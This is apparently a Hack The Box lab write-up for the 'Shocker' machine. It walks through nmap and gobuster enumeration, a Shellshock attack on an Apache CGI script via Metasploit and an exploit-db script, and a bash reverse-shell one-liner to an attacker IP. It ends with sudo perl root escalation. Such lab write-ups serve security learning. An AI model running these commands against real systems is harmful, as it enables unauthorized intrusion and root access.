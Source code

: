 ![logo](/logo.png)

# [Shocker- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on on 30 Sep 2017 as the tenth machine on HTB,Shocker created by[mrb3n](https://app.hackthebox.com/users/2984) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *cgi
  *shellock
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/shocker 10.10.10.56
```

###### Output 

![](/Linux/Linux-Easy/Shocker/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/shocker 10.10.10.56                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 20:02 EAT
Nmap scan report for 10.10.10.56
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.28 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache`. 

port[80]-  http
port[2222]-ssh

So when we go the browser at [http://10.10.10.56](http://10.10.10.56)  looking at the browser we find a page with dont bug me!

![](/Linux/Linux-Easy/Shocker/Screenshots/browser.png)

I start `gobuster` and run it  to enumerate existing directories.

```sh
gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -x php -t 50
```



Due to the limited results, and inferring from the name of the Machine, it is fairly safe to assume at
this point that the entry method will be through a script in /cgi-bin/ using the Shellshock exploit.
Fuzzing for the extensions cgi, sh, pl, py get us the following results.

# Exploitation

With the discovered user.sh script, and due to the lack of another attack surface, it is quite clear
at this point that the exploit will be `shellshock` `Apache mod_cgi`. There is a Metasploit module
for this specific vulnerability, as well as a Proof of Concept on exploit-db.

```sh
cat user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/usersh.png)

we starte `msfconsole`

```sh
search apace cgi
```

![](/Linux/Linux-Easy/Shocker/Screenshots/msfconsole.png)

```sh
show options
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST 10.10.14.15
run
```

and just like that we get a meterpreter

![](/Linux/Linux-Easy/Shocker/Screenshots/meterpreter.png)

lets start a pyhon script from [exploitDB](https://exploit-db.com/exploits/34900/) so that we can do this manually 

```sh
python3 shellock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.15 lport=1337 pages=/cgi-bin/user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/userflag.png)


lets start a shell 

```sh
/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

![](/Linux/Linux-Easy/Shocker/Screenshots/shell.png)

then it close but gets us a shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellpython.png)

`perl` has a `-e` option that allows me to run Perl from the command line. It also has an `exec` command that will run shell commands. Putting that together, I can run `bash` as root

![](/Linux/Linux-Easy/Shocker/Screenshots/sudol.png)

```sh
sudo perl -e 'exec "/bin/bash"'
```

you can get `root` shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellroot.png)

	-------------------------END successful attack @lesley----------------------


